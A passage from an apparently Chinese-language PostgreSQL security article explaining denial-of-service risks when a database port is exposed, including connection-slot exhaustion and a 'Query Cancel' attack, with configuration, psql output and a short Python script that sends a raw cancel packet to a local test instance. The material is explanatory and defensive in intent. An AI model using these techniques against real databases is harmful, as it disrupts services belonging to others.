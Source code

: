 ## 4 如何模拟数据库DOS攻击  
例如当配置了数据库允许的最大连接数为1000时，攻击者可以不断发起连接请求，并且不输入密码，在认证超时前，一致占用连接槽，直到耗尽所有的连接。  
  
当发生数据库DOS攻击时，查询活跃会话视图pg_stat_activity时，你会发现连接数可能不多（因为大量连接槽是被DOS攻击占用的，还没有完成认证，不会出现在活跃会话的视图中），但是已经无法新建连接。  
  
## 5 攻击难度更高的Query Cancel攻击  
数据库端口暴露有什么风险么？    
    
正常情况下，你可能会觉得只要密码足够复杂，同时你设置了合理的ACL（pg_hba.conf配置），数据库端口暴露也没有风险。  
  
但是经过前面的分析，没有密码也能进行DOS攻击，你可能会瑟瑟发抖。例如你的数据库端口暴露在公网，在ACL里面配置了只允许某些来源IP，值允许某些特定的数据库用户访问某些特定的数据库，好像DOS攻击就不存在了，实际上真的高枕无忧吗？   
  
### Query Cancel攻击例子  
目前某个数据库所在服务器有一个公网IP，并且防火墙层面没有拒绝任何来源IP访问数据库的5432监听端口。  
  
数据库配置了ACL只允许unix socket连接，但是监听了所有端口。配置如下：  
  
```  
postgresql.conf  
listen_addresses='0.0.0.0'  
port=5432  
  
pg_hba.conf  
# TYPE  DATABASE        USER            ADDRESS                 METHOD  
# "local" is for Unix domain socket connections only  
local   all             all                                     trust  
```  
    
连接非UNIX SOCKET，都会报如下错误，无法连接到数据库，你觉得这样的pg_hba.conf配置安全么？    
    
```  
postgres@digoal-> psql -h 127.0.0.1  
psql: SSL error: sslv3 alert handshake failure  
FATAL:  no pg_hba.conf entry for host "127.0.0.1", user "postgres", database "postgres", SSL off  
```  
    
我们在这个数据库上运行一个LONG SQL。    
    
```  
postgres=# select pg_backend_pid();  
 pg_backend_pid   
----------------  
          61758  
(1 row)  
postgres=# select pg_sleep(10000);  
```  
    
然后编写一个脚本，目的是通过TCP发Cancel报文给postmaster进程，让postmaster去处理cancel请求。    
    
Cancel报文里面需要告诉postmaster两个值，PID和PID对应的cancel_key。    
  
```  
[root@digoal ~]# vi cancel.py   
#!/usr/bin/python  
import struct  
import socket  
import sys  
  
def pg_cancel_query(pid, cancel_key):  
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
    s.connect(("127.0.0.1",1921))  
    buffer = struct.pack('IIII', socket.htonl(16), socket.htonl((1234<<16)|(5678)),\  
            socket.htonl(int(pid)), socket.htonl(int(cancel_key)))  
    s.send(buffer)  
    # log.info("cancel query %s: return %s" % (query, s.recv(1024)))  
    s.close()   
```